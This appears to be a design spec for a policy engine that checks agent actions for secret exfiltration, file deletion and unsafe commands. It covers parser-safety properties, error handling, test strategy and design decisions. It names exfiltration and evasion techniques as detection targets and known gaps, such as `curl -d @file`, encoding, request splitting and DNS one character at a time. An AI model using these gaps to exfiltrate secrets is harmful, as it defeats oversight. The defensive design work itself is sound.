**Validates: Requirements 12.2, 12.3, 12.4, 12.5, 12.6, 12.7, 12.8, 12.9, 12.10, 12.11, 12.13, 13.1, 13.2, 13.9, 13.11**

### Property 16: parseWards is total and safe on hostile input

For all strings (random text, truncated valid documents, documents with anchors, aliases, merge keys, tags, repeated keys, deep nesting, and sizes up to 262,144 bytes plus one), `parseWards` returns a `ParseResult` and never throws; an input over 262,144 bytes gives only `input-too-large`; anchors, aliases, `<<`, explicit tags, and depth over 8 give `yaml-feature-unsupported`; a repeated key (including a repeated `safe_commands`) gives `duplicate-key` naming the first line; at most 50 errors plus one `too-many-errors` are returned.

**Validates: Requirements 12.1, 13.4, 13.5, 13.6, 13.7**

### Property 17: Printing and parsing round trip

For all valid `WardSet` values `ws` and all valid `safeCommands` lists `sc`, `parseWards(printWards(ws, { safeCommands: sc }))` is `ok: true` with a `wardSet` deep-equal to `ws` and a `safeCommands` array equal to `sc`, and `printWards` of those parsed values is a string identical to the first printed text. An empty `sc` prints no `safe_commands` key and parses back to `[]`; a non-empty `sc` prints one top-level `safe_commands: [...]` line after the last ward. The text ends with one newline and strings that plain style could misread (`".env"`, `"data/**"`, `"0"`, `"true"`) are quoted.

**Validates: Requirements 14.1, 14.2, 14.3, 14.5, 12.13**

---

## Error Handling

| Situation | Behavior | Where it is visible |
|---|---|---|
| `evaluate` receives a change with a missing or non-string `path`, or a `sql-row-count` with a wrong-typed field | The change is ignored; no throw | Property 6, 7 |
| A change path leaves the Copy root (`../x`) | Matches no `path` ward; one `path-escape` warn notice when the ward set has a `path` ward (at most 20) | Property 13 |
| `secretValues` entry with a non-string key or a non-`Uint8Array` value | Entry skipped; `content-inspection` notice naming the sanitized key when it is a string; never any content; no throw | Property 12 |
| `secretValues` absent or empty while a secret-read of a Secret_Path or a payload exists | One `content-inspection` notice per affected egress ward (`content inspection did not run`); the Behavior_Criterion still applies | Verification table 3c |
| Canary candidates discarded (too short, too long, too many) and at least one payload exists | One `content-inspection` notice per (file, reason), no value | Decision D5 |
| Payload key with no matching event | Payload inspected; one `content-inspection` notice | Property 13 |
| Payload longer than 65,536 bytes | Only the first 65,536 bytes are searched; no error. The README states the limit | Property 10 |
| Unexpected exception inside content inspection | Caught around the inspector call only; one `content-inspection` notice `content inspection failed` (no message text); the verdict is at least `warn`; behavior and path judgments are unaffected | Unit test with an injected failing payload map |
| Destination cannot be parsed | `parseDestination` returns `null`; `allows` is false; a violation is raised, and the reason shows `sanitizeText` of the raw text (the leak guard still applies) | Property 4 |
| `URL` unavailable in the runtime | All name and IPv6 destinations parse to `null` (fail-closed, more violations, never fewer) | Unit test with `URL` removed |
| Invalid glob or host entry in a hand-built `WardSet` | The engine compiles leniently: a bad glob degrades to literal characters, a bad host entry allows nothing. Callers should go through `wards-config`, which rejects them | Property 3 |
| A secret appears inside a destination, path, event id, or table name | The leak guard replaces that string with `[redacted: contains a secret value]` | Property 12 |
| Hostile input to `renderMessage` (control chars, over-long fields, invalid base or id) | Sanitized and truncated; invalid base or id drops the seance text; never throws | Property 14 |
| `block` with no violations, or `warn` with no notices | The fixed fallback lines of the "Message builder" section | Unit test |
| YAML syntax error | `yaml-syntax-error` with the library's position converted through `LineCounter` | Property 15 |
| Anchor, alias, `<<`, explicit tag, depth over 8, indentation over 64 spaces, 64 nested brackets | `yaml-feature-unsupported` | Property 16 |
| Input over 262,144 bytes | `input-too-large`, nothing parsed; `loadWardsFile` checks `stat` first | Property 16 |
| File unreadable or not valid UTF-8 (Node entry `loadWardsFile` only) | `file-unreadable` with the path and no line | Unit test |
| `safe_commands` is not a list, has a non-string item, has an entry with a hidden character, an over-long or empty entry, a shell operator or other character outside the charset, a duplicate, or more than 256 entries | `wrong-type`, `invalid-character`, `out-of-range`, `unsafe-command-entry`, or `duplicate-entry` as in the `safe_commands` table; no entry text in the message | Property 15 |
| Library throws (including `RangeError`) | Caught by `parseWards`; one `yaml-syntax-error` at line 1; never rethrown | Property 16 |
| More than 50 errors | First 50 sorted errors plus a final `too-many-errors` | Property 16 |
| Worst-case slow content inspection (adversarial payload) | Not cut off by a budget, because a budget shared across canaries would break monotonicity (a canary added by a stricter ward could starve an earlier one). The cost per needle is fixed, and the work is bounded by the candidate caps and the runner's file and size limits on `secretValues`. Open dependency: the ghost-runner design must cap the number and size of `secretValues` entries; this design assumes a cap and a test with the largest allowed input. The hook's 60 s limit is the last bound | Perf test |

Residual limits stated in the README: secret values shorter than 8 bytes are not content-inspected; compression, encryption, multi-layer encoding, splitting over requests, and DNS one character at a time are caught only by the Behavior_Criterion; hex with separators other than blanks and line breaks (for example `:`) is not detected; the sanitizer and the config check do not cover C1 controls or U+2028 and U+2029 (they follow the character list of Requirement 12 criterion 9); case folding approximates the filesystem's folding by Unicode lower-casing, so a name that the filesystem treats as equal through a mapping `toLowerCase` does not make (for example `ß` and `SS`) is not folded.

---

## Testing Strategy

### Approach

Property-based testing applies: the units under test are pure functions (normalizer, matchers, inspector, engine, message builder, parser, printer) with large input spaces. Where a criterion is configuration, packaging, timing, or documentation, example, smoke, or perf tests are used instead (see the prework classification).

- Library: `fast-check` with `vitest`. No custom property framework.
- Each property above is one `fc.assert(fc.property(...))` with `numRuns: NUM_RUNS` from the existing `core/tests/pbt-config.ts` (100 in a short run with a 60 s limit, 10,000 in a nightly run with `GHOST_PBT_MODE=nightly`). `wards-config/tests/pbt-config.ts` is a copy of that file (the `core/tests` folder is not published).
- Each test carries a comment: `// Feature: wards, Property <n>: <title>` and `// **Validates: Requirements ...**`.
- Hidden Unicode in tests is written as escapes (`"\u200B"`, `"\u{E0041}"`); canaries are `sk-CANARY-` plus generated alphanumerics; hosts come from `.example`, `.test`, `.invalid`, `.localhost`, `192.0.2.x`, `::1`, `::ffff:c000:20a`, and `registry.npmjs.org` only.
- Independent oracles: the glob reference matcher (naive recursion), the host reference function, the fixture file-system world's own path resolver, and the encoders of Property 9 (Node `Buffer`, reached through a narrow `globalThis` cast as `pbt-config.ts` does for `process`). None of them import the code under test.

### Files

```
core/tests/
  p4-refined-monotonicity.test.ts   # Property 1 (the existing p4 test stays untouched and passes unchanged)
  normalize.test.ts                 # Property 2
  glob.test.ts, fixtures/glob-oracle.ts   # Property 3
  host.test.ts, fixtures/host-oracle.ts   # Property 4
  p5-protection.test.ts, fixtures/fs-world.ts   # Property 5
  path-ward.test.ts                 # Property 6
  sql-ward.test.ts                  # Property 7
  p6-egress.test.ts                 # Property 8
  p6-content.test.ts, fixtures/encoders.ts   # Properties 9, 10
  canary.test.ts                    # Property 11
  leak.test.ts                      # Property 12
  engine-determinism.test.ts        # Property 13
  message.test.ts                   # Property 14
  perf.test.ts                      # Requirements 3.9, 10.10, 19.11 (counters plus loose time limits, skipped in a short run)
  wards.test.ts                     # existing tests plus examples for the new behavior
wards-config/tests/
  parse-errors.test.ts              # Property 15
  parse-safety.test.ts              # Property 16
  roundtrip.test.ts                 # Property 17
  default-wards.test.ts             # loads ../../apps/ghost-shell/wards.yaml, ok:true, exact three wards
  scenarios.test.ts                 # verification table rows 1 to 5 with exact messages
  core-import-ban.test.ts           # ESLint rejects a core import of wards-config
  smoke.test.ts                     # README rows, package.json dependencies and exports map, license field, no Node built-in in the import graph of src/index.ts, one example per ConfigErrorCode
```

### Generators (extension of the P4 generators)

The existing pools stay as they are (paths with leading `/`, trailing `/`, no globs), so the existing test is untouched. The refined test adds pools and a new arbitrary that reuses `baseWardSetArb` shape:

- Patterns: literals, `dir/**`, `*.ext`, `**/name`, `?` and class patterns, `./` and `//` decorated spellings of the same pattern; `case_sensitive` in `{absent, false, true}` with weight on `true`.
- Changes: paths drawn from the patterns by construction (a matching sample), with bypass decorations (`./x/../x`, doubled slashes), upper-case spellings, `symlink-changed`, and escaping paths.
- Hosts: names, `host:port`, `*.suffix` wildcards, IPv4 and IPv6 literals; destinations with scheme, userinfo, port, and a trailing dot.
- Inputs: `secretValues` entries bound to secret paths with `.env`-style content; payloads that contain the canary in one of the encodings of Property 9, sent to allowed and unallowed hosts, with `eventId` linked to an event or orphaned.
- Tightening operations, all strictly non-loosening: add a path or secret pattern, add a deny operation, flip `case_sensitive` from `true` to absent, add a table, lower `max_rows_lost`, remove an allowed host, add a ward. The sanity test (as in the existing file) asserts `isMoreRestrictive(w1, w2)` for every generated pair and that at least 15% of pairs show a strictly higher verdict.

### Fixture file-system world (`fixtures/fs-world.ts`)

An in-memory `World<FsState, FsAction>` with actions `rm`, `rm-recursive`, `rm-glob`, `find-delete`, `mv`, `overwrite`, `ln` plus `script` (a list of other actions run as one action). Its own `resolve()` normalizes spellings and follows its link table, so `diff` reports resolved real paths, the precondition of Requirement 5 criterion 5. It is deterministic and in memory, so it also serves P1 to P3 style checks if needed.

### Example and smoke tests

- Exact strings: scenario rows 1 and 2 messages; `formatConfigError` samples; reasons of Requirements 5, 6, 8, and 11.
- Each `validateGlob` and `validateHostEntry` code has one example; each `ConfigErrorCode` has one example document.
- `npm test`-style pass (row 4); allowed host after secret read is `warn` (row 3c).
- The step-bound check for `a*a*a*a*a*a*a*a*b` against 4,000 `a` characters uses the step counter; a loose wall-clock assertion (well above 50 ms) runs only in the perf file.
- `core/package.json` has no `dependencies`; `no-restricted-imports` includes the `wards-config` patterns; the README lists the `yaml` row with name, version, and license.

### Tasks to carry into the later task list (not done here)

1. W-types: add `case_sensitive` and the two notice kinds to `core/src/types.ts` (after ghost-runner W0).
2. Implement `core/src/judge/*`, refactor `core/src/wards.ts` to the orchestrator, delete its header NOTE (Open Item 9), extend `index.ts` exports.
3. Add the ESLint pattern group for `wards-config` to `core/eslint.config.mjs`.
4. Create `wards-config/` with the two entries (`src/index.ts` browser-safe, `src/node.ts` Node-only) and the `no-restricted-imports` block for the default entry; add `  - wards-config` to `pnpm-workspace.yaml`; install `yaml` 2.9.1; record its version and license in the README table on the same day.
5. Create `apps/ghost-shell/wards.yaml`.
6. Update `.kiro/steering/structure.md` as described in Data Models (steering files are not edited by this design).
7. Add the test files listed above; keep the short run under 60 s together with the P1 to P4 tests.

---

## Decisions and Reasons

| # | Decision | Reason |
|---|---|---|
| D1 | Case folding is a one-code-point-to-one-code-point Unicode `toLowerCase` (a multi-code-point result keeps the original), wrapped in NFC before and after | Over-matching fails safe; one-to-one mapping keeps `?` and class semantics identical between pattern and path; NFC makes composed and decomposed spellings equal. ASCII-only folding would miss accented names on APFS. Exact filesystem folding is not claimed |
| D2 | Glob matching is two nested greedy two-pointer loops, no regex, no recursion | Gives the `O(m * n)` bound by a pair-uniqueness argument and cannot blow up on `a*a*a*...b` |
| D3 | YAML library: `yaml` (ISC, zero dependencies); `js-yaml` rejected | Only `yaml` gives node ranges for semantic errors. Version and license are to be confirmed on the day of installation because web access was denied during design |
| D4 | Package `@ghost-run/wards-config` in `wards-config/`, listed in `pnpm-workspace.yaml`; depends on `core` only | Same placement logic as `ghost-runner/`; keeps `yaml` out of `core` |
| D5 | Canary-discard notices only when at least one payload exists | Otherwise every plan with a normal `.env` (short values like `PORT=3000`) would warn, which contradicts scenario 4 (`npm test` passes). With a payload present, an observed event already makes the run `warn`, so monotonicity is unaffected |
| D6 | A canary that contains `CR LF SP TAB` also gets a whitespace-free `raw` needle searched in V1 and V3 | `curl -d @file` and similar tools strip newlines, so a multi-line key would otherwise be missed. This adds detection inside the `raw` kind and does not change any claim. If the requirements owner prefers the stricter reading of Requirement 10 criterion 2, drop this one needle |
| D7 | Content search is a Bloom pre-filter on 8-byte rolling-hash windows, then KMP | Deterministic linear verification; the pre-filter makes the 16 x 256 case cheap; no shared work budget (it would break P4) |
| D8 | Ordering uses code point comparison, never default `sort` | UTF-16 order differs from the UTF-8 byte order that the requirements name |
| D9 | `evaluate(report, wardSet, inputs?)` with `EvaluateInputs` from ghost-runner W0; `claims` is not an input | Backward compatible with every existing call; `GhostReport` stays a record of observations; the engine does not need to know about isolation |
| D10 | Notice kinds `content-inspection` and `path-escape` added; no structured fields on violations | The UI can distinguish them; reason formats are the tested contract |
| D11 | `isMoreRestrictive` keys are structural, unfolded; tables use ASCII lower-case; hosts use `hostEntryKey` | Folded keys are unsound across differing `case_sensitive` flags for mixed-case ranges; incompleteness is accepted and documented |
| D12 | Destinations in reasons and notices are reduced to `host[:port]`, and a leak guard scans every output string for all canaries | A URL query or a hostname label can carry a secret into the verdict and then into the agent's context, which Requirement 11 criterion 5 forbids. The guard changes text only, never the verdict |
| D13 | Default wards file at `apps/ghost-shell/wards.yaml` | The policy belongs to the app; ghost-runner's world is not under `worlds/` |
| D14 | `RenderContext.claims` is optional; `Claims.reason` is `'static-analysis'` (or absent) or `'unsupported-step'`, each with its own fixed line | Worlds where P5 and P6 do not apply (Ghost Hand) need no claim line, and the playground needs a distinct honest line for steps it could not rehearse. A P5/P6 caller must pass `claims`; the hook tests (task 4.13 and the hook spec) cover that. Absent reason keeps the old Plan B wording |
| D15 | Engine compilation is lenient, `validateGlob` and `validateHostEntry` are strict | The engine must never throw on a hand-built set; strictness lives where the file is read |
| D16 | Literal patterns use a prefix lookup in a `Set` | Meets the 10,000-change, 1,000-pattern budget without changing results |
| D17 | Host parsing strips scheme, userinfo, path, and port by hand, and uses the platform `URL` only to canonicalize one host; numeric-looking hosts are rejected before `URL` sees them | `URL` would turn `3232235786` into `192.168.1.10`, which Requirement 7.8 forbids matching |
| D18 | SQL multi-table reason is `would delete <n1> rows from <t1>, <n2> rows from <t2>`; tables are sorted by their lower-case name and print in the ward's own spelling (requirement 6.3 agrees: the lower-case name is only the sort key) | Keeps the old shape and a stable display independent of data |
| D19 | `parseWards` pre-scans indentation and bracket runs before calling the library | The library composes recursively; a hostile 256 KiB input could exhaust the stack. Legitimate files are never near the limits |
| D20 | `isMoreRestrictive` and the engine share `normalizePattern` and `hostEntryKey` | One definition of "same entry" for duplicate detection (`duplicate-entry`), set comparison, and matching |
| D21 | `wards-config` has two entries: the default entry is browser-safe (no Node built-in), and `loadWardsFile` lives in the subpath `@ghost-run/wards-config/node`; the rule is enforced by an ESLint `no-restricted-imports` block and an import-graph test | The Ghost Shell playground parses `wards.yaml` in the browser. `yaml` 2.9.1 (ISC, published 2026-09-11) has a browser build as the `default` condition of its `exports` map, so the parser itself needs no Node. One check could rot silently, so two independent checks (lint on source files, graph walk on the real import graph) guard the same rule |
| D22 | `safe_commands` is parsed by `wards-config` into `ParseResult.safeCommands`; `core` `WardSet` and `WardEngine` stay unchanged; `printWards` takes it as an optional second parameter and omits the key when the list is empty; the default file carries five `safe_commands` entries (`ls`, `pwd`, `cat`, `git status`, `git diff`) | `ghost-gate` needs the list from the same file, but a safe list is a hook concern, not a ward. Keeping it out of `WardSet` avoids touching `core` types, `isMoreRestrictive`, and P4. Omitting an empty list keeps the round trip exact because absent and `[]` parse to the same value. The conservative charset keeps every shell operator out of the list so no later matcher can be fooled by an entry. The default list is decided (Open Item 16); how entries are matched is owned by the kiro-integration spec |
